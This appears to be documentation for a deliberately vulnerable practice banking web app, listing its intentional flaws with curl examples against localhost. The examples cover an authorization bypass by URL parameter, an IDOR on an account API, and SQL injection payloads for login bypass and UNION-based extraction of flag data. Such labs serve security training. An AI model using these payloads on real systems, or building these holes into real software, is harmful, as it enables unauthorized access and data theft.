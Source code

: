 #### GET /admin/users?admin=true
**🚨 Authorization Bypass**: Access admin data through URL parameter.

**Example:**
```bash
curl "http://localhost:5000/admin/users?admin=true"
```

**Response:**
```json
{
  "users": [
    {
      "id": 1057,
      "username": "admin",
      "email": "admin@razzbank.com",
      "full_name": "System Administrator",
      "account_number": "ADM001",
      "balance": 999999.99,
      "role": "admin"
    }
  ]
}
```

#### GET /api/v1.0/account (IDOR)
**🚨 IDOR Vulnerability**: Access detailed account information without authorization.

**Example:**
```bash
curl "http://localhost:5000/api/v1.0/account?account_number=ADM001"
```

**Features:**
- No authentication required
- Access any account by account number
- Returns sensitive account data and recent transactions
- Special flag exposure for admin accounts
- Professional API design despite intentional vulnerability

### Traditional Web Endpoints

#### POST /login
**🚨 SQL Injection Vulnerability**: Login form vulnerable to SQL injection.

**Vulnerable Payloads:**
```bash
# Authentication bypass
curl -X POST http://localhost:5000/login \
  -d "username=admin' OR '1'='1' --&password=anything"

# Data extraction
curl -X POST http://localhost:5000/login \
  -d "username=admin' UNION SELECT 1,2,3,flag_value,5,6,7,8 FROM system_flags--&password=anything"
```
